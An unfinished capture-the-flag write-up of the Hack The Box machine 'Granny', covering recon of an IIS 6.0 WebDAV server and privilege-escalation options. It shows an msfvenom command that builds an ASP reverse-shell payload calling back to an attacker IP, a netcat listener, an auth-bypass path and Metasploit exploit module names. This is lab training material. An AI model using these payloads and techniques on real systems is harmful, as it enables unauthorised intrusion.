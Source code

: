 # * Granny
`* Still in progress`

## Recon

The tags on [this box](https://app.hackthebox.com/machines/14)  
> - Windows
> - Patch Management  
> - Web

Difficulty:
> Easy

The only open port is 80. There is an IIS 6.0 webserver running. The homepage appears to be broken:

![[Pasted image 20220115184455.png]]

IIS 6.0 is way old. There's gotta be exploits for it out there. I reviewed EDB exploits using searchsploit, but none of them seem exciting. I decided to check with [Hacktricks's WebDav page](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) and was happy to find the following method to gain code execution.

For the shell, I'll be using msfvenom to create a reverse tcp shell for windows.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f asp -o reverse.asp
```

![[Pasted image 20220115185937.png]]

Now start a listener to catch the reverse shell.

```bash
nc -nvlp 4444
```

Then trigger the exploit by visiting the malicious page we just uploaded.

![[Pasted image 20220115190110.png]]

Look, a shell!

![[Pasted image 20220115190203.png]]

System Info

```
> Host Name:                 GRANNY  
> OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition  
> OS Version:                5.2.3790 Service Pack 2 Build 3790  
> OS Manufacturer:           Microsoft Corporation  
> OS Configuration:          Standalone Server  
> OS Build Type:             Uniprocessor Free  
> Registered Owner:          HTB  
> Registered Organization:   HTB  
> Product ID:                69712-296-0024942-44782  
> Original Install Date:     4/12/2017, 5:07:40 PM  
> System Up Time:            0 Days, 0 Hours, 53 Minutes, 6 Seconds  
> System Manufacturer:       VMware, Inc.  
> System Model:              VMware Virtual Platform  
> System Type:               X86-based PC  
> Processor(s):              1 Processor(s) Installed.  
>   [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz  
> BIOS Version:              INTEL  - 6040000  
>  Windows Directory:         C:\WINDOWS  
> System Directory:          C:\WINDOWS\system32  
> Boot Device:               \Device\HarddiskVolume1  
> System Locale:             en-us;English (United States)  
> Input Locale:              en-us;English (United States)  
> Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk  
> Total Physical Memory:     1,023 MB  
> Available Physical Memory: 709 MB  
> Page File: Max Size:       2,470 MB  
> Page File: Available:      2,255 MB  
> Page File: In Use:         215 MB  
> Page File Location(s):     C:\pagefile.sys  
> Domain:                    HTB  
> Logon Server:              N/A  
> Hotfix(s):                 1 Hotfix(s) Installed.  
> [01]: Q147222  
> Network Card(s):           N/A 
```


## Privesc

I used the same technique to upload winpeas.bat to do some more enumeration.

Didn't see anything obvious in the WinPEAS output, so I took a break and added an analysis/lessons learned to the other pages. One of the mistakes I made was to jump to exploitation before finishing enumeration. Enumerate, enumerate, enumerate. I'm going to try a different format for writeups on the next few boxes, switching to that format now (sorry readers, this is going to be a messy writeup).



## NMAP scan results

```text
PORT   STATE SERVICE REASON          VERSION                                                                      80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0                                                      | http-methods:                                                                                                   |   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST                                                                                                                 |_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT             |_http-title: Under Construction                                                                                  | http-webdav-scan:                                                                                               |   Server Date: Sun, 16 Jan 2022 00:28:36 GMT                                                                    |   WebDAV type: Unknown                                                                                          |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                                                                      |   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK                                                                                                                |_  Server Type: Microsoft-IIS/6.0                                                                                |_http-server-header: Microsoft-IIS/6.0                                                                           Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port             Device type: general purpose                                                                                      Running (JUST GUESSING): Microsoft Windows 2003|2008|2000|XP (91%)

```

# Services

## :80 - IIS 6.0
From [Wikipedia](https://en.wikipedia.org/wiki/Internet_Information_Services)

> **Internet Information Services** (**IIS**, formerly **Internet Information Server**) is an extensible [web server](https://en.wikipedia.org/wiki/Web_server "Web server") software created by [Microsoft](https://en.wikipedia.org/wiki/Microsoft "Microsoft") for use with the [Windows NT](https://en.wikipedia.org/wiki/Windows_NT "Windows NT") family.[[2]](https://en.wikipedia.org/wiki/Internet_Information_Services#cite_note-2) IIS supports [HTTP](https://en.wikipedia.org/wiki/HTTP "HTTP"), [HTTP/2](https://en.wikipedia.org/wiki/HTTP/2 "HTTP/2"), [HTTPS](https://en.wikipedia.org/wiki/HTTPS "HTTPS"), [FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol "File Transfer Protocol"), [FTPS](https://en.wikipedia.org/wiki/FTPS "FTPS"), [SMTP](https://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol "Simple Mail Transfer Protocol") and [NNTP](https://en.wikipedia.org/wiki/Network_News_Transfer_Protocol "Network News Transfer Protocol"). It has been an integral part of the Windows NT family since [Windows NT 4.0](https://en.wikipedia.org/wiki/Windows_NT_4.0 "Windows NT 4.0"), though it may be absent from some editions (e.g. Windows XP Home edition), and is not active by default.

### Exploit 1 - WebDav arbitrary file upload
[HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) explains how to upload an executable file to bypass filtering. This is the method I already did above, and I was able to get a shell as `network service`


### Exploit 2 - WebDav buffer overflow
[EDB-41738](https://www.exploit-db.com/exploits/41738)
> Description:Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.  

This exploit is pre-loaded with a calc.exe payload - if I want to exploit I'll need to replace the payload with a reverse shell or something similar.

#### Replacing the shellcode
![[Pasted image 20220116165456.png]]  

I couldn't get this one to work, I may be doing it wrong. This attack vector seems too complex for the rating of this box anyway.

### Exploit 3 - IIS 6.0 Authentication Bypass
[EDB-19033](https://www.exploit-db.com/exploits/19033)

> (tested on Windows Server 2003 SP1 running PHP5)  
Details:  
By sending a special request to the IIS 6.0 Service running PHP the attacker can successfully bypass access restrictions.  
>Take for example:  
1.) IIS/6.0 has PHP installed  
2.) There is a Password Protected directory configured  
--> An attacker can access PHP files in the password protected  
directory and execute them without supplying proper credentials.  
--> Example request (path to the file): /admin::$INDEX_ALLOCATION/index.php  
IIS/6.0 will gracefully load the PHP file inside the "admin" directory if the ::$INDEX_ALLOCATION postfix is appended to directory name.  
This can result in accessing administrative files and under special circumstances execute arbirary code remotely.

## Applications
From winpeas, I was able to see the following patches not installed. There were more missing patches, but these are ones I could find potentially relevant exploits for.

Since all the privilege escalation paths I found were metasploit modules, I had to migrate my shell over to metasploit:

![[Pasted image 20220116185502.png]]

### Task Scheduler
MS10-092 - [EDB - 19930] This is a metasploit module. I would need to migrate shell to metasploit session before testing `windows/local/ms10_092_schelevator`

#### Exploitation



### Kitripod
MS10-015 - [EDB - 11199](https://www.exploit-db.com/exploits/11199) This is also a metasploit module.
`windows/local/ms10_015_kitrap0d`



